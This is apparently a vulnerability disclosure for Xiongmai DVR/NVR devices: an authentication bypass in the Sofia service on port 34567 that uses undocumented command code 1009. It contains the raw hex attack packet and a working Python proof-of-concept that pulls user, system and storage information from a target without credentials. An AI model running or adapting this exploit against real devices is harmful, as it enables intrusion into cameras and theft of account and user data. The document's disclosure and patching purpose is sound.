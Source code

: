 # Xiongmai Devices Unauthorized Incorrect Access Control and Command Execution

## Summary

A significant security vulnerability has been identified across a range of Xiongmai hardware products. The vulnerability resides within the implementation of the Sofia service( default port: `34567`), allowing for unauthorized command execution due to incorrect access control. This vulnerability enables attackers to issue commands without proper authentication, leading to unauthorized access and potential control over device functionalities, posing a severe security risk to both the system's integrity and the confidentiality of user data, affecting over 390,000 devices on the Internet.

![Untitled](Untitled.png)

## **Affected Devices**

**Vendor:** Xiongmai 

**Hardware:**

- AHB7804R-MH-V2
- AHB8008T-GL
- AHB8004T-GL
- XM530_R80X30-PQ_8M
- AHB7004T-GS-V3
- AHB8032F-LME
- AHB7004T-MHV2

**SoftwareVersion:**

- V4.03.R11.4915714A.12201.142300.0000000
- V4.02.R11.A8531149.10001.131900.00000
- V4.03.R11.4912720B.11201.142300.0000004
- V4.03.R11.4912720D.11201.142300.0000004
- V5.00.R02.00030751.10010.348717.0000000
- V4.02.R11.C6380171.11201.141900.00000
- V4.03.R11.0000020X.11201.042300.0000005
- V4.02.R11.24340142.10001.131900.00000

## CWE

CWE-284 (Improper Access Control)

## **Vulnerability Details**

The vulnerability is triggered by sending a crafted packet containing an undocumented command code (**`1009`**) to the device. This packet bypasses the standard authentication mechanisms, granting the attacker unauthorized access.

- **Request Packet**: The attack vector is a packet that begins with a standardized header `ff00000000000000000000000000`, followed by the command code `f103` (little-endian hex for `1009`), and a payload that includes an indication of successful operation `{ "Ret" : 100, "SessionID" : "0x0" }`. This packet does not appear to require authentication or validation to process, leading to the vulnerability.

```
ff00000000000000000000000000f103250000007b202252657422203a203130302c202253657373696f6e494422203a202230783022207d0a
```

## PoC

The following Python script demonstrates the vulnerability exploitation process:

Notably, under normal operational conditions, accessing to commands that request sensitive information such as users information, system information, and storage information require proper authentication and authorization. However, **the discovered vulnerability circumvents these security measures, allowing an attacker to send specific command packets without any authentication.** 

```python
import socket
import socks  # PySocks
import json

HOST = 'Target_IP_Address'
PORT = 34567
print('Target: '+str(HOST)+":"+str(PORT))

# Define the commands to send in order
commands = [
    'ff00000000000000000000000000f103250000007b202252657422203a203130302c202253657373696f6e494422203a202230783022207d0aff00000000000000000000000000ac05300000007b20224e616d6522203a20224f5054696d655175657279222c202253657373696f6e494422203a202230783022207d0a',  # Initial command
    'ff00000000000000000000000000ee032e0000007b20224e616d6522203a20224b656570416c697665222c202253657373696f6e494422203a202230783022207d0a',  # KeepAlive
    'ff00000000000000000000000000c00500000000',  # Users Information
    'ff00000000000000000000000000fc032f0000007b20224e616d6522203a202253797374656d496e666f222c202253657373696f6e494422203a202230783022207d0a',  # Device Information
    'ff00000000000000000000000000fc03300000007b20224e616d6522203a202253746f72616765496e666f222c202253657373696f6e494422203a202230783022207d0a',  # Storage Information
]

def send_data(s, data):
    binary_data = bytes.fromhex(data) 
    s.sendall(binary_data)

def recv_all(s):
    s.settimeout(10.0)
    data = b''
    while True:
        try:
            part = s.recv(1024)
            data += part
            if part.endswith(b'\x0a\x00'):
                break
        except socket.timeout:
            break
    return data

def process_commands(socket, commands):
    for command in commands:
        send_data(socket, command)
        response = recv_all(socket)
        print("response\n", response)
        if b'"Ret" : 100' not in response:
            print("Not meet the expected condition, stopping...")
            break

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.settimeout(10)
    s.connect((HOST, PORT))
    process_commands(s, commands)

```

Specifically, this script illustrates how an attacker can utilize a series of commands to manipulate device settings or extract sensitive information without authorization.

[pocCheck3-en.py](pocCheck3-en.py)

## Exploitation

### Sample 1

AHB7804R-MH-V2

V4.03.R11.4915714A.12201.142300.0000000

![Untitled](Untitled%201.png)

**PCAP file:**

![Untitled](Untitled%202.png)

![Untitled](Untitled%203.png)

### Sample 2

AHB7804R-MH-V2

V4.02.R11.A8531149.10001.131900.00000

![Untitled](Untitled%204.png)

### Sample 3

AHB8008T-GL

V4.03.R11.4912720B.11201.142300.0000004

![Untitled](Untitled%205.png)

### Sample 4

AHB8004T-GL

V4.03.R11.4912720D.11201.142300.0000004

![Untitled](Untitled%206.png)

### Sample 5

AHB8004T-GL

V4.03.R11.4912720D.11201.142300.0000004

![Untitled](Untitled%207.png)

### Sample 6

XM530_R80X30-PQ_8M

V5.00.R02.00030751.10010.348717.0000000

![Untitled](Untitled%208.png)

### Sample 7

AHB7004T-GS-V3

V4.02.R11.C6380171.11201.141900.00000

![Untitled](Untitled%209.png)

### Sample 8

 AHB8032F-LME

V4.03.R11.0000020X.11201.042300.0000005

![Untitled](Untitled%2010.png)

### Sample 9

AHB7004T-MHV2

V4.02.R11.24340142.10001.131900.00000 

![Untitled](Untitled%2011.png)

## Impact

The exploitation of this vulnerability could allow an attacker to perform unauthorized actions on the affected device, potentially leading to information disclosure, device manipulation, or disruption of service.

## Recommendations

Investigate and patch the firmware to validate command codes against a list of authorized commands.
